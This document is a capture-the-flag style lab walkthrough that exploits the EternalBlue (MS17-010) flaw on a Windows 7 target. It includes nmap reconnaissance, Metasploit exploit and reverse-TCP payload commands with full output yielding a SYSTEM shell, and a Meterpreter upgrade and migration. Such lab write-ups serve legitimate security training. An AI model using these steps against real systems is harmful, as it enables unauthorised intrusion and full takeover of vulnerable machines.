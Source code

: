 # Exploiting Windows and Eternal Blue
## Recon
* Scan and learn what exploit the target is vulnerable to.
```
nmap -sV --script vuln -oN TARGET_IP_scan.nmap TARGET_IP
```
  * `-sV` attempt to determine version of running services.
  * `--script vuln` runs all scripts in the NSE "vuln" category to check for specific known vulnerabilities.
    * Generally only reports results if they are found.
  * `-oN` saves results in "normal" format.
* Target is vulnerable to ms17-010.
```
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```
> EternalBlue affects unpatched Windows versions earlier than 8 by exploiting a vulnerability in the SMBv1 protocol to cause a buffer overflow that ultimately leads to remote code execution. EternalBlue was the main attack vector used by the WannaCry ransomware to target and exploit it’s victims.
## Gain Access
* Exploit the machine and gain a foothold.
#### 1. Start Metasploit.
```
msfconsole
```
#### 2. Find exploitation code to run against the target.
```
search eternalblue type:exploit

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
  0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
#### 3. Select exploit.
```
use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```
#### 4. Show available exploit options.
```
show options
```
  * `set rhosts TARGET_IP`.
  * `set payload windows/x64/shell/reverse_tcp`.
#### 5. Execute exploit.
```
exploit

[*] Started reverse TCP handler on 10.10.173.11:4444 
[*] 10.10.38.72:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.38.72:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.38.72:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.38.72:445 - The target is vulnerable.
[*] 10.10.38.72:445 - Connecting to target for exploitation.
[+] 10.10.38.72:445 - Connection established for exploitation.
[+] 10.10.38.72:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.38.72:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.38.72:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.38.72:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.38.72:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.38.72:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.38.72:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.38.72:445 - Sending all but last fragment of exploit packet
[*] 10.10.38.72:445 - Starting non-paged pool grooming
[+] 10.10.38.72:445 - Sending SMBv2 buffers
[+] 10.10.38.72:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.38.72:445 - Sending final SMBv2 buffers.
[*] 10.10.38.72:445 - Sending last fragment of exploit packet!
[*] 10.10.38.72:445 - Receiving response from exploit packet
[+] 10.10.38.72:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.38.72:445 - Sending egg to corrupted connection.
[*] 10.10.38.72:445 - Triggering free of corrupted buffer.
```
#### 6. Confirm exploit has run properly.
```
[*] Command shell session 2 opened (10.10.173.11:4444 -> 10.10.38.72:49185) at 2024-02-20 09:58:59 +0000
[+] 10.10.38.72:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.38.72:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.38.72:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Shell Banner:
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
## Escalate
* Convert shell to meterpreter shell in metasploit.
* `back` to move back to main Metasploit console.
```
search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade

```
```
use 0
show options
Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Wi
                                       ll try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on
```
* Set `SESSION` option to 2.
  * Session 2 is active reverse shell from target.
* Run exploit.
```
exploit
```
* Shell upgraded to Meterpreter.
```
[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.173.11:4433 
[*] Post module execution completed
```
* Switch to new Meterpreter shell.
```
sessions -i 3
[*] Starting interaction with 3...

meterpreter >
```
* Verify NT AUTHORITY\SYSTEM escalation.
```
getsystem
[-] Already running as SYSTEM
shell
Process 9968 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
* `CTRL+Z` to background the shell.
* `ps` lists all of the running processes.
  * Identify process running as NT AUTHORITY\SYSTEM and note Process ID (far left column).
    * `spoolsv.exe` is good choice as it is generally stable and respawns upon failure.
```
9528   712    spoolsv.exe       x64   0        NT AUTHORITY\SYSTEM
```
* Migrate
## Cracking
## Find Flags!
